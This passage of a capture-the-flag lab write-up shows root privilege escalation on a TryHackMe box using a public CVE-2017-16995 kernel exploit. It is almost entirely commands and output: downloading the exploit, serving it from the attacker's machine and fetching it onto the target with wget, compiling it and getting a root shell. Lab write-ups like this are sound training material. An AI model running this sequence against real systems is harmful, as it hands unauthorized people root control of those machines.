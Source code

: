 I tried dirty cow at first but it did not work as expected. So I searched for other exploits and found [this](https://dl.packetstormsecurity.net/1807-exploits/cve-2017-16995.c) exploit which worked for me.

### Downloading the exploit
```console
local@local:~/Documents/tryhackme/nerdherd$ wget https://dl.packetstormsecurity.net/1807-exploits/cve-2017-16995.c
```

### Hosting the file using python server
```console
local@local:~/Documents/tryhackme/nerdherd$ ifconfig tun0 | grep -i 'inet '
        inet 10.6.31.213  netmask 255.255.128.0  destination 10.6.31.213
local@local:~/Documents/tryhackme/nerdherd$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## Downloading the exploit on the remote box
```console
chuck@nerdherd:~$ wget 10.6.31.213:8000/cve-2017-16995.c
--2020-11-05 10:27:28--  http://10.6.31.213:8000/cve-2017-16995.c
Connecting to 10.6.31.213:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15574 (15K) [text/plain]
Saving to: ‘cve-2017-16995.c’

cve-2017-16995.c                            100%[===========================================================================================>]  15,21K  37,4KB/s    in 0,4s    

2020-11-05 10:27:29 (37,4 KB/s) - ‘cve-2017-16995.c’ saved [15574/15574]
```

### Compiling the exploit using gcc
```console
chuck@nerdherd:~$ which gcc
/usr/bin/gcc
chuck@nerdherd:~$ gcc cve-2017-16995.c -o exploit
```
### Running the exploit
```console
chuck@nerdherd:~$ ./exploit 
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880017d9a600
[*] Leaking sock struct from ffff88000c879680
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88001e768c00
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff88001e768c00
[*] credentials patched, launching shell...
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(chuck)
# 
```